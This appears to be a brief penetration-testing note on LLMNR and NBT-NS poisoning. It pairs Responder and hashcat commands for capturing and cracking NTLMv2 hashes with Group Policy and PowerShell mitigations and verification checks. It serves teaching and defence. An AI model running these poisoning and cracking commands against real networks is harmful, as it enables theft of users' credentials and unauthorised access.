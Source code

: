 ## Overview
LLMNR is a protocol that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local network without requiring a DNS server or DNS configuration.
When a host’s DNS query fails (i.e., the DNS server doesn’t know the name), the host broadcasts an LLMNR request on the local network to see if any other host can answer. <br><br>
LLMNR is the successor to NetBIOS.  NetBIOS (Network Basic Input/Output System) is an older protocol that was heavily used in early versions of Windows networking. NBT-NS is a component of NetBIOS over TCP/IP (NBT) and is responsible for name registration and resolution.  Like LLMNR, NBT-NS is a fallback protocol when DNS resolution fails. It allows local name resolution within a LAN.

## Exploitation [EASY]
Listen for LLMNR requests and respond with our own attacker IP address, to redirect the traffic:
```bash
sudo responder -I eth0 -dwPv
```
Once an event occurs, we can grab the hash and try to crack it using custom wordlists:
```bash
hashcat –m 5600 HASH-FILE CUSTOM-WORDLIST
```
## Mitigation
- Disable LLMNR by selecting “Turn OFF Multicast Name Resolution” under Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor.<br><br>
- Then, disabled NBT-NS via GPO using the following Powershell script under Startup Scripts in Computer Configuration > Policies > Windows Settings > Scripts > Startup:
```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces\tcpip* -Name NetbiosOptions -Value 2
```
## Confirming mitigations
Check for LLMNR:
```powershell
$(Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows NT\DNSClient" -name EnableMulticast).EnableMulticast
```
Check for NBT-NS:
```bash
wmic nicconfig get caption,index,TcpipNetbiosOptions
```
## Best practice
- Ensure password complexity (greater than 14 characters, alphanumeric, symbols)
- Use [Network Access Control](https://www.fortinet.com/resources/cyberglossary/what-is-network-access-control).
